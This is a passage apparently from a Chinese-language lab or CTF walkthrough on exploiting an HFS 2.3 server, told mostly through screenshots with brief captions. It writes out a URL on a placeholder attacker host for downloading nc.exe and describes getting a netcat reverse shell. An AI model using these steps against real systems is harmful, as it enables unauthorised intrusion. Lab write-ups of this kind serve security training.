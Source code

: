 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcODxoWV3rZ0EJ2tteoMpUSEZXwgpFjon0R3whSiaE2Bhia7uRm6NJa53w/640?wx_fmt=png)

利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcjlicJsk9Ms68Qs0HVDGEibnKclicmbicWbm4umCRah4LmfdS1heBbyxjow/640?wx_fmt=png)

选择会话... 然后选择 payload...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcfDnAkkGNs4HPMrNalOBrYByT3VRwLrjCyj84C2PvB4fDGUDxVibsm1g/640?wx_fmt=png)

执行即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcM3jeibJYFsuSZGnWialHJtbMyOzkcG6r5eI1yexkkdoETC8wP9tPh5uw/640?wx_fmt=png)

执行完后，发现还是不起作用... 另想别的方法...

![](https://mmbiz.qpic.cn/mmbiz_svg/jRoggJ2RF3BHibojhJQ8jmNderYtvTh8HkyBLp8nlK1B262IP84ZEic7el5hZ1rSy2RRjsGUQxdSGiaPFGG66pA8FnblLMZNWzA/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/jJSbu4Te5ib8dv7tckM3eiau36jYD6r6JzUadPhLfh5pBPkc7MXuibrLRyxucMXeHZMwuc8YJbmickBgMbiaNAGWJ6u8K69OmxYXp/640?wx_fmt=svg)

利用 NC 创建一个低特权反向 shell

![](https://mmbiz.qpic.cn/mmbiz_svg/Iic9WLWEQMg188DeVtNKRm1TKjRbm9lMO1Sn0Nxp4ub3M6m1ib29Pg42QpAsl2KtUhGicZIM8mBLAW0BTviaOLUdwnDUBNpqgNlQ/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_svg/Ib5852jAyb9xjIOSr4AGdwHrOa5leGNTnFwkWXvaOsQMx7bVxQiabjjSeicggObSK25jW1K5mG6aNZia8VJuiaarScZkKOYlJP4a/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcJzDmks4aC2DIecBVpGgMhfLdc6dBicozZsjk8LibSs02cDDZibOeAVzMA/640?wx_fmt=png)

前面 80 端口扫描就发现是 2.3 的 HFS，这里我都查看下这两个的内容...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcmaP3b6CSibcaibiclkPAIAzHLLMyjhC1kyWfLcubvSY6g0svFlb0VxQAA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcZs0rqgeibj21NUiaWFHqw65evD0Lh2mL6Q8NQXcOUrsgAaG63ajsA1xw/640?wx_fmt=png)

可以看到这里更依赖于 Web 服务器下载来利用 nc.exe 获取反向 Shell...

需要使用托管 netcat 的 Web 服务器：

```
http://<attackers_ip>:80/nc.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcExH6D7sXW5nT1MKYuTph0M9G4ykPS3icMD23RbEQlCc5elvicBcbibYOw/640?wx_fmt=png)

和 shell 一样改成本地 kali 的 IP 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcoaOMyd3QK367cuto0a9OTUGbym8hR248bVgs4g4nqpbkiac4kesNxQg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJcDI8ErlLjPlV1ibkFk5NYCfO4QYEFZLBArq5K18kequCFjZ6aGtice4xg/640?wx_fmt=png)

将 nc.exe 复制到文件夹中来...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNltMicaa5x60L5X99aeCRJc0N7ibebHZ6QYuFgD49UlgXYY4tCasFs2XticePibZASBoRLMWOpNPFfAg/640?wx_fmt=png)
